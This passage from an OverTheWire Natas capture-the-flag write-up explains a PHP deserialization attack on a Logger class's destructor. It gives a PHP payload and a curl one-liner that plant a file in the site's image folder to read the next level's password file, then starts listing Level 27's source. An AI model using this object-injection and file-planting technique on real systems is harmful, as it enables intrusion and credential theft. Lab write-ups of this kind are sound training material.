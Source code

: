 Interesting. It looks like a `Logger` object will write information to a file when it's created and deleted. Luckily for us, the `unserialize` function occurs within the `drawFromUserData` function. This means if we pass it a `Logger` object, it will be deleted when `drawFromUserData` is done running, which will then run the `__destruct` function, thus logging the `exitMsg` in `logFile`. Great, now we just have to create a serialized `Logger` object:

```php
<?php
class Logger{
    private $exitMsg="<?php readfile('/etc/natas_webpass/natas27')?>";
    private $logFile="img/random_filename.php";
}
echo base64_encode(serialize(new Logger()));
?>
```

Now we pass that to the site and read the file:

```bash
filename=$(cat /dev/urandom | tr -cd [:alnum:] | head -c16); curl -s "http://natas26:$natas26_pass@natas26.natas.labs.overthewire.org/" -b drawing=$(php -r 'class Logger{private $exitMsg="<?php readfile('"'/etc/natas_webpass/natas27'"')?>";private $logFile="img/'$filename'.php";}echo urlencode(base64_encode(serialize(new Logger())));') -o /dev/null; curl -s "http://natas26:$natas26_pass@natas26.natas.labs.overthewire.org/img/$filename.php"
```

[*Back to top*](#overthewire---natas)

## Level 27

![natas27_index.jpg](screenshots/natas/natas27_index.jpg)

[Sourcecode](http://natas27.natas.labs.overthewire.org/index-source.html):

```php
<?

// morla / 10111
// database gets cleared every 5 min


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/


function checkCredentials($link,$usr,$pass){

    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);
```